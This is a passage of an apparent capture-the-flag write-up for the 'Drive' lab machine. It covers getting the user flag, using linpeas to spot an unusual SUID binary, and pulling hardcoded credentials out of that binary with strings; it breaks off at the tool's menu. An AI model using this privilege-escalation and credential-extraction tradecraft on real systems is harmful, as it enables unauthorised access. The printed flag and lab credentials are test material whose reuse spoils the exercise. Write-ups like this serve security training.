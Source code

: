 We can now switch to the tom user.
```bash
martin@drive:~$ su tom
Password: 
tom@drive:/home/martin$ id
uid=1003(tom) gid=1003(tom) groups=1003(tom)
```

User flag: `0aa385d9e90a0a2cdeed0c44e18c2995`
```bash
tom@drive:~$ cat user.txt 
0aa385d9e90a0a2cdeed0c44e18c2995
```


## Privilege Escalation

Linpeas finds an unknown SUID file.
```bash
╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                                                                             
                      ╚════════════════════════════════════╝                                 
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ <https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid>                                                                                                                               
-rwSr-x--- 1 root tom 867K Sep 13 13:36 /home/tom/doodleGrive-cli (Unknown SUID binary!)
```

Looks like we need a username and password to execute the file.
```bash
tom@drive:~$ ./doodleGrive-cli 
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:

Enter password for :

Invalid username or password.
```

Running strings against it we find the username and password.
```bash
Enter Username:
Enter password for 
moriarty
findMeIfY0uC@nMr.Holmz!
```

We can now get more information about the script.
```bash
tom@drive:~$ ./doodleGrive-cli 
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
moriarty
Enter password for moriarty:
findMeIfY0uC@nMr.Holmz!
Welcome...!

doodleGrive cli beta-2.2: 
1. Show users list and info
2. Show groups list
3. Check server health and status
4. Show server requests log (last 1000 request)
5. activate user account
```